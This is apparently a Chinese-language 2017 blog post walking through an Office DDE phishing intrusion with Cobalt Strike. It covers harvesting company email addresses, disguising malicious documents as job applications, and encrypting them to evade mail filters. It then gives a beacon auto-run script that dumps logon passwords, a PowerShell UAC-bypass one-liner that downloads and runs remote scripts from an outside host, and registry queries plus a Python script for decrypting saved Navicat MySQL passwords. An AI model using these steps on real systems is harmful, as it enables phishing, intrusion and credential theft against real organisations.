




office DDE 实战
- 作者:c4bbage
- 时间:2017.11.6
- 链接:http://dobest1.com/OfficeDDE
简介
Ms office在不需要宏情况下，使用DDE进行攻击.恶意文档制作简单，实施成本低。到目前为止微软并未推出补丁，也未承认此漏洞。公司内网梭子鱼、赛门铁克、均可进行部分拦截
DDE原理
DDE只不过是一个自定义字段，用户可插入文档。这些字段允许用户输入简单的说明，包括插入到新文档中的数据及插入位置。问题是恶意软件制作者可以创建包含DDE字段的恶意Word文件（而不需要打开另一个Office应用程序）、打开命令提示符和运行恶意代码。通常情况下，Office应用程序会显示两项告警内容。第一个是关于包含指向其他文件的链接的文档告警，第二个是关于打开远程命令提示符的错误告警
过程
建立CS监听
整个过程是主要是收集目标邮箱、发送恶意邮件、BypassUAC,用的工具是 cobaltstrike ,加载DDE利用扩展.建立listens,利用次扩展(Attacks -> DDEauto Word stage exploit)生产恶意代码，把恶意代码利用标记嵌入已经准备好的doc文档中。
D:\github\DDEAutoCS 的目录
2017/11/02 16:04 <DIR> .
2017/11/02 16:04 <DIR> ..
2017/11/02 16:04 13,356 2222.docx
2017/10/30 17:03 2,018 ddeauto.cna
2017/10/30 17:03 <DIR> img
2017/10/30 17:03 1,546 LICENSE
2017/10/30 17:03 1,104 README.md
2017/10/31 10:02 15,969 应聘-php开发-贾德.docx
2017/10/31 10:02 13,355 应聘-php开发-贾德.zip
2017/10/31 09:12 14,062 应聘-运营策划实习生-贾德.docx
2017/10/31 09:45 23,294 应聘-运营策划实习生-贾德.zip
梭子与设备会拦截我们未加密的文档，建议对文档进行做加密处理。
收集邮箱
- 通过百度、谷歌，搜索关键字 '@xxxxx.com 公司|招聘|邮箱|mail|email' 记录相应的招聘标题
- 通过github 手机技术人邮箱 '@xxxxx.com email' 记录开发语言
发送钓鱼邮件

第一封邮件显示叹号，未发送成功，就是因为梭子鱼给拦掉了。日志如下: 
结果
一台开发上线

cobaltstrike 上线自动执行脚本
on beacon_initial {
bshell($1,"net user")
binput($1,"shell net user")
bshell($1,"ipconfig /all")
binput($1,"shell ipconfig /all")
binput($1, "logonpasswords");
blogonpasswords($1);
}
bypassuac
这个挺好用的
powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/cf906a8a59d6ff22f79ac64554c4244da1a3d63f/Invoke-TokenDuplication.ps1');Invoke-TokenDuplication -Binary 'cmd.exe' -Arguments '/c powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString(''http://2.3.2.2:80/dde'');'
本机的信息收集
Navicat mysql 认证信息
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v pwd
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v host
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v port
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v UserName
提取如上信息放入脚本中进行解密
# 需要环境python3.5
# git clone https://github.com/DoubleLabyrinth/how-does-navicat-encrypt-password
# cd how-does-navicat-encrypt-password
# cat mysql.py
#!/usr/bin/env python
# -*- coding:utf-8 -*-
#
"""
cmd.exe /c
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v pwd
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v host
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v port
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v UserName
"""
import re
# import
pwd = """HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
Pwd REG_SZ xxxxxxxxxxxxxxx
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
Pwd REG_SZ xxxxxxxxxxxxxxxx
"""
user = """
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
UserName REG_SZ root
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
UserName REG_SZ root
"""
host = """
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
Host REG_SZ x.x.x.x
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
Host REG_SZ x.x.x.x
"""
port = """
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
Port REG_DWORD 0xcea
HKEY_CURRENT_USER\\SOFTWARE\\PremiumSoft\\Navicat\\Servers\\x.x.x.x
Port REG_DWORD 0xcea
"""
mysqlServers = {}
mysqlPwd = {}
mysqlPort = {}
mysqlUsername = {}
for i in host.split("\n\n"):
mysqlServers[i.strip().split("\n")[0]] = {"host": re.sub(
"\s+", "|", i.strip().split("\n")[1].strip()).split("|")[2]}
for i in pwd.split("\n\n"):
mysqlPwd[i.strip().split("\n")[0]] = {"pwd": re.sub(
"\s+", "|", i.strip().split("\n")[1].strip()).split("|")[2]}
for i in user.split("\n\n"):
mysqlUsername[i.strip().split("\n")[0]] = {"username": re.sub(
"\s+", "|", i.strip().split("\n")[1].strip()).split("|")[2]}
for i in port.split("\n\n"):
mysqlPort[i.strip().split("\n")[0]] = {"port": re.sub(
"\s+", "|", i.strip().split("\n")[1].strip()).split("|")[2]}
from prettytable import PrettyTable
import NavicatEncrypt
table = PrettyTable(["host", "port", "username", "pwd"])
for i in mysqlServers:
table.add_row([mysqlServers[i]['host'], int(
mysqlPort[i]['port'], 16), mysqlUsername[i]['username'], mysqlPwd[i]['pwd'], NavicatEncrypt.Decrypt_Navicat(bytearray.fromhex(mysqlPwd[i]['pwd'])).decode('ascii')])
print tablle
